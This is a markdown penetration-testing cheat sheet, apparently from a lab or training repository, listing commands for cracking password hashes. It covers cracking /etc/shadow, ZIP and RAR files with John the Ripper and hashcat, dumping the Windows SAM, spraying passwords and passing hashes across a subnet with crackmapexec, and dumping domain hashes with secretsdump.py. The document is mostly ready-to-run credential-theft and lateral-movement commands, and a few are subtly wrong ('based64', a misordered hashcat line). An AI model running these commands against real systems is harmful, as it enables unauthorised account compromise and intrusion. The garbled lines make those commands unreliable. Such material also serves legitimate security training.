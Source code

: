 ### PASSWORD HASHING & CRACKING
#### Identifying hashes
```
# In Kali
hash-identifier
```

#### Decode hashes
```
# Just add your hash type instead of SHA1
findmyhash SHA1 -h yourhash

# decode base64
echo yourhash | based64 -d
```

#### John the Ripper
```
# Copy /etc/shadow and /etc/passwd into text files and combine them
unshadow passwd.txt shadow.txt > passwords.txt

# Crack with john the ripper
john --wordlist=/usr/share/wordlists/rockyou.txt --rules passwords.txt 

# Check if cracked once session finishes
john --show passwords.txt
```
#### John alternate method
```
# Save your password in a file called temp
john temp --wordlist=/usr/share/wordlists/rockyou.txt --fork=4
```
#### John with RAR/ZIP
```
# Get password hash for zip file
zip2john filename.zip > hash.txt 
john --format=zip hash.txt 

# Get password hash for rar file
rar2john filename.rar > hash.txt
john --format=rar hash.txt
```

#### John direct cracking
```
john /etc/shadow
```

#### Hashcat
```
# Copy just the hashes from /etc/shadow into a file called hashes.txt
hashcat -m 500 -a 3 /usr/share/wordlists/rockyou.txt hashes.txt

# Windows hash
hashcat -m 5600 hashes.txt rockyou.txt
```

#### Windows SAM
```
# Use samdump2 from Windows/System32/config
samdump2 SYSTEM SAM

# Send the second part of the hash to hashkiller.co.uk
Username:1000:aad3b435b51404eeaad3b435b51404ee:<this>26112010952d963c8dc4217daec986d9</this>:::
```

### Pass the Password/Hash with crackmapexec
```
apt install crackmapexec

# Pass the password around the domain to see where it works
crackmapexec smb 10.0.3.0/24 -u username -d MARVEL.local -p Password1

# Pass the hash. NTLM can be passed, NTLMv2 can not.
crackmapexec smb 10.0.3.0/24 -u username -H <theHashValue> --local

# Can also dump SAM
crackmapexec smb 10.0.3.0/24 -u username -d MARVEL.local -p Password1 --sam
```

#### Dump hashes with secretsdump.py
```
secretsdump.py marvel/fcastle:Password1@<ip>
```
